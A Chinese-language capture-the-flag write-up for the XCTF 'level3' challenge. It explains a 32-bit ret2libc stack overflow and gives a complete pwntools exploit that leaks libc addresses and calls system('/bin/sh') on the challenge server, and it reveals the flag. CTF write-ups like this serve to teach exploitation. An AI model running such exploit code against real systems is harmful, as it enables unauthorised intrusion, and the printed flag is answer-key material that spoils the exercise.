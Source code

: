 # level3

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=49f986c6-2097-4c70-ae7e-d4e5302b7645_2&task_category_id=2)

普通的ret2libc，没有任何干扰。

```c
void vulnerable_function(void)
{
  undefined local_8c [136];
  write(1,"Input:\n",7);
  read(0,local_8c,256);
  return;
}
```

只调用了write，那就没办法用puts了。write在32位下也不难，用法就是1+要打印的地址+4（1固定表示从stdin读取，4是要打印的字节数）。得到第一个泄露write真实地址的payload。

- b'a'*0x8c+p32(write_plt)+p32(vuln_addr)+p32(1)+p32(write_got)+p32(4)

本来想放到在线libc数据库去查，但是试了很久还是失败。换个机子用pwntools找。

```python
from pwn import *
libc=ELF("lib")
print(libc.symbols['system'])
```

libc我重命名了。找libc内函数的偏移使用libc.symbols['要找偏移的函数']，跟照got和plt还是有区别的。/bin/sh在libc的偏移要用ROPgadget找，pwntools好像不行。

-  ROPgadget --binary lib --string '/bin/sh'

泄露地址-函数偏移=运行时libc加载的基地址。得到基地址就可以根据偏移算要用的函数了。exp如下。

```python
from pwn import *
p=remote("61.147.171.105",64057)
write_plt=134513472
write_got=134520856
vuln_addr=0x0804844b
payload=b'a'*0x8c+p32(write_plt)+p32(vuln_addr)+p32(1)+p32(write_got)+p32(4)
p.sendlineafter("Input:",payload)
p.recvuntil(b'\n')
write_addr=u32(p.recv(4))
bin_sh_offset=0x0015902b
system_offset=239936
write_libc=869312
lib_base=write_addr-write_libc
payload=b'a'*0x8c+p32(lib_base+system_offset)+p32(vuln_addr)+p32(lib_base+bin_sh_offset)
p.sendlineafter("Input:",payload)
p.interactive()
```

- ### Flag
  > cyberpeace{d5c95af6be20ee7795dc857718caec4f}